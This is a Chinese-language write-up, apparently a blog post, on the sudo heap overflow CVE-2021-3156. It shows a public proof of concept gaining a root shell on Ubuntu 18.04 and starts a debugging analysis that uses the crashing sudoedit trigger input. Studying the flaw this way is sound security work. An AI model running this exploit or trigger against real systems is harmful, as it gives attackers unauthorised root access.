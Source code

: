 很巧啊 ，我们的测试环境正好和它对上了，咱直接开干

```
./sudo-hax-me-a-sandwich 0
# ** CVE-2021-3156 PoC by blasty
#
# using target: Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27 ['/usr/bin/sudoedit'](56, 54, 63, 212)
# ** pray for your rootshell.. **
# [+] bl1ng bl1ng! We got it!
whoami
# root
```

这样下来，我们就拿到了一个 root shell

![](https://mmbiz.qpic.cn/sz_mmbiz_png/wQuKRAE0ouOPf5MOpzk95hePNI0JABUgicHMS5ibpGwyO8ia7NoYq4ibJa9unHt9eb2VRqAmX7PFoia5PTdibncP398Q/640?wx_fmt=png)

看来咱 pray 还是有效的，不如每次拿 shell 之前心里默念大悲咒（？）

0x02 漏洞分析

啪的一下，咱就装个 cgdb

```
sudo apt install cgdb
```

为什么不用 gdb？因为 cgdb 提供两个界面：一个代码界面，一个 gdb 命令行  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/wQuKRAE0ouOPf5MOpzk95hePNI0JABUgQHtTkZXGNicTADLHMK42wvicnlsiazDgQ96ShFmvATXdicaxF3NCvRna6g/640?wx_fmt=png)

众所周知，gdb 看代码需要 list 指令，有时候它显示不到我们需要的代码，还需要再带上行数

而 cgdb 就能直接上下翻，还能直接在代码上下断点，灰常滴方便。

我们要分析的 sudo 版本为 1.9.5p1，最后一个有漏洞的版本。

为了能方便的看代码，我们要把它重新编译一下

```
wget https://github.com/sudo-project/sudo/archive/SUDO_1_9_5p1.tar.gz
tar xf SUDO_1_9_5p1.tar.gz
cd sudo-SUDO_1_9_5p1
mkdir build
cd build
../configure --enable-env-debug
make -j
sudo make install
```

完成之后，我们开始调试

```
sudo cgdb --args sudoedit -s '\' 1145141919810
# 一定要以root权限调试！
```

网上一些分析文章说漏洞代码是动态加载，要先把程序弄崩，直接下断下不到。
